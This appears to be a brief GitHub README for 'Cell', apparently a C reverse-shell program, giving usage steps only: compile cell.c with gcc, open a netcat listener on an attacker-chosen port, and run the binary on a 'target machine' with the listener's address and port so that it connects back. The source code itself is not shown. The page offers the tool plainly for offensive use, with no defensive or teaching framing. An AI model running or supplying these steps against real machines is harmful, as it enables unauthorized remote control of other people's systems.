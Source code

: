 ## Cell

**Compile with gcc `$ gcc cell.c --output cell`**  
**Set up a nc listener to the port you desire `$ nc -lvp 9999`**  
**On the target machine run `$ ./cell <address> <port>`**  

<img src="https://user-images.githubusercontent.com/69394316/229928414-12a215e7-931f-4bd9-93fd-0171607b7823.png" alt="C" width="50" height="50" />

